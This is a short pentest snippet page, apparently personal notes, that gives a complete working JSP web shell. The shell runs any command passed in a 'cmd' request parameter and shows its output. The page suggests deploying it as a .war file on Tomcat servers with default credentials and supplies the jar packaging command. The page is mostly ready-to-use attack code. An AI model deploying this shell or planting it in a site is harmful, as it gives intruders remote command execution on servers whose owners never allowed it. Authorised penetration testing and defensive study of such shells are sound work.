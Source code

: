 # Java Shells

## JSP Shell
These can be used for example on tomcat servers with standard credentials, as metasploit's war shells often don't work.

```
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
out.println("Command: " + request.getParameter("cmd") + "<BR>");
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
DataInputStream dis = new DataInputStream(in);
String disr = dis.readLine();
while ( disr != null ) {
out.println(disr);
disr = dis.readLine();
}
}
%>
</pre>
</BODY></HTML>
```

To create the .war file use `jar -cvf <name>.war * `

tags: windows programming java snippets pentest webshell tomcat
